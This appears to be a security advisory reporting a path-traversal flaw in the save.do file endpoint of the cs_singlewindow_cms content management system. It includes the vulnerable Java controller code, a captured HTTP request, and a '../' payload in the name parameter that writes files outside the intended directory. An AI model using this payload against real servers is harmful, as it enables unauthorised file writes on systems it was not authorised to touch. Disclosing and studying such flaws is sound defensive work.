

**BUG_Author:**

hadagaga

**Vendor:**

https://github.com/xitaofeng/cs_singlewindow_cms

**Software:**

https://github.com/xitaofeng/cs_singlewindow_cms

**Vulnerability File:**

#### src/main/java/com/jspxcms/core/web/back/WebFileUploadsController.java

Controller:

```java
	@RequiresPermissions("core:web_file_2:save")
	@RequestMapping(value = "save.do", method = RequestMethod.POST)
	public String save(String parentId, String name, String text, String redirect, HttpServletRequest request,
			HttpServletResponse response, RedirectAttributes ra) throws IOException {
		return super.save(parentId, name, text, redirect, request, response, ra);
	}
```

Function implementation:

```java
	protected String save(String parentId, String name, String text, String redirect, HttpServletRequest request,
			HttpServletResponse response, RedirectAttributes ra) throws IOException {
		Site site = Context.getCurrentSite();
		String base = getBase(site);

		if (!Validations.uri(parentId, base)) {
			throw new CmsException("invalidURI");
		}
		FileHandler fileHandler = getFileHandler(site);
		fileHandler.store(text, name, parentId);
		logService.operation("opr.webFile.add", parentId + "/" + name, null, null, request);
		logger.info("save file, name={}.", parentId + "/" + name);
		ra.addFlashAttribute("refreshLeft", true);
		ra.addAttribute("parentId", parentId);
		ra.addFlashAttribute(MESSAGE, SAVE_SUCCESS);
		if (Constants.REDIRECT_LIST.equals(redirect)) {
			return "redirect:list.do";
		} else if (Constants.REDIRECT_CREATE.equals(redirect)) {
			return "redirect:create.do";
		} else {
			ra.addAttribute("id", parentId + "/" + name);
			return "redirect:edit.do";
		}
	}
```

​	Only the parentId is filtered but not the name parameter, so there is directory penetration, create a new document, enter success, and then capture the packet.

```http
POST /cmscp/core/web_file_2/save.do HTTP/1.1
Host: 172.21.87.148:8888
Content-Length: 89
Cache-Control: max-age=0
Origin: http://172.21.87.148:8888
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36 Edg/131.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://172.21.87.148:8888/cmscp/core/web_file_2/create.do?parentId=%2F1&
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: select_id=%2F1; open_ids=%2F1; _site=1; JSESSIONID=CA7DD070F74CFE10991C0475CE82606D
Connection: close

origName=&parentId=%2F1&position=&redirect=edit&name=test.html&baseName=test&text=success
```

​	Change the name parameter to .. /.. /.. /.. /.. /test.html to create a test.html file in the root directory of the project.

